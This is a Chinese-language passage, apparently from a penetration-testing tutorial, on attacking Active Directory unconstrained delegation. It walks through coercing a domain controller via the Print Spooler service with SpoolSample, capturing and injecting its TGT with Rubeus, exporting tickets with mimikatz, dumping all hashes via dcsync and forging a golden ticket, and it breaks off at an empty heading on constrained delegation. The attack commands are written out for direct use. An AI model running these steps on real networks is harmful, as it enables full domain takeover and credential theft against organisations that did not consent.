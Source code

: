 1、这里使用的服务是WinRM服务。  
  
Windows Server 2012及以上默认是开启WinRM服务的，Windows Server 2008 R2需要winrm quickconfig -q来启动WinRM服务。  
  
2、在上述常见中，是人为主动让域管理员访问对应服务，在实战过程中，如何让域管理员主动访问对应服务？  
  
windowsSpooler打印机服务是默认启用的方法。  
  
应用场景：  
  
获取一台主机账户开启了非约束委派域内机器的权限。  
  
域控：IP1  
  
域内普通主机：IP2  
  
(主机账户开启非约束委派，而不是服务用户)。  
  
主要的原理就是通过PrintSpooler服务使用特定POC让域控对设置了非约束委派的主机发起请求，获取域控的TGT，从而提升权限。  
- 首先向域控IP1的Spooler服务发送请求，强制其访问域内普通主机(IP2)进行身份验证。  
  

```
    SpoolSample.exe 域控机器名 普通机器名

```

- 使用Rubeus来监听  
  

```
    Rubeus.exe monitor /interval:1 /filteruser:CSTAR$

```

- 直接使用Rubeus来注入内存  
  

```
    Rubeus.exe ptt /ticket:base64

```

- 可以使用mimikatz导出TGT，注入当前会话。  
  

```
    privilege::debug
    sekurlsa::tickets /export

```

- 用dcsync导出域控中所有用户的hash。  
  
- 得到krbtgt用户的hash之后生成一张administrator的黄金票据。  
  
- 以administrator的身份访问域控。  
  
# 约束委派攻击  
### 原理  
### 应用场景  
  